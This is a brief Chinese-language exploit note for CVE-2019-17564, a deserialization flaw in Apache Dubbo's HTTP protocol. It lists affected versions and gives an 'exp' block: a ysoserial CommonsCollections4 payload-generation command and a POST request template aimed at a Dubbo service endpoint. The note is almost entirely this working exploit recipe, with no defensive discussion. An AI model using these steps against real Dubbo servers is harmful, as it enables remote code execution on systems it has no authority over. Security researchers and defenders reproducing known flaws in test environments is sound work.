 # CVE-2019-17564 Apache-Dubbo反序列化漏洞

影响版本：  
- 2.7.0 <= Apache Dubbo <= 2.7.4  
- 2.6.0 <= Apache Dubbo <= 2.6.7  
- 2.5.x   

exp:
```
Payload生成：java -jar ysoserial.jar CommonsCollections4 "calc"

POST /org.apache.dubbo.samples.http.api.DemoService HTTP/1.1
Host:yourip:8080

Payload
```

[@admin-神风](https://www.cnblogs.com/wh4am1/p/12307848.html)